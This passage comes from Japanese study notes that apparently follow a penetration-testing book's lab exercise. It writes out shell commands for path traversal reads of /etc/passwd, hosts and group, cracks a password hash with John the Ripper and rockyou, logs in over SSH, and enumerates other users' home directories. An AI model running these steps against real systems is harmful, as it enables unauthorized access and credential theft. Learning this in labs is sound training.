```sh
parrot01$ ROOT_DIR="../../../../.."
parrot01$ reqbody="file=$ROOT_DIR/etc/passwd"
parrot01$ !-2 # 2つ前のコマンドを実行

parrot01$ reqbody="file=$ROOT_DIR/etc/hosts"
parrot01$ !-2 # 2つ前のコマンドを実行

parrot01$ reqbody="file=$ROOT_DIR/etc/group"
parrot01$ !-2 # 2つ前のコマンドを実行

# get more info ...
```

### 19. パスワードを解析する(p370)

[john the ripper](https://openwall.com/john)

```sh
parrot01$ reqbody="file=$ROOT_DIR/etc/passwd"
parrot01$ !-2  | grep "webadmin" > hash.txt
parrot01$ john hash.txt --wordlist=/usr/share/wordlist/rockyou.txt
parrot01$ john hash.txt -show
> webadmin:dragon ...
```

### 20. SSH アクセス(p372)

```sh
parrot01$ ssh webadmin@$IP
> password dragon

webadmin@serv:~$
```

### 21. ログインに成功したら現状を把握する(p372)

```sh
webadmin@serv:~$ id
webadmin@serv:~$ pwd
```

### 22. ホームディレクトリを調べる(p373)

```sh
webadmin@serv:~$ ls -la
> user.txt
webadmin@serv:~$ cat user.txt
webadmin@serv:~$ cat user.txt | base64 -d
```

### 23. 他のユーザーのホームディレクトリにアクセスする(p373)

```sh
webadmin@serv:~$ ls /home
> florianges webadmin

webadmin@serv:~$ cd /home/florianges
webadmin@serv:/home/florianges$ ls -la
> .sudo_as_admin_successful
```
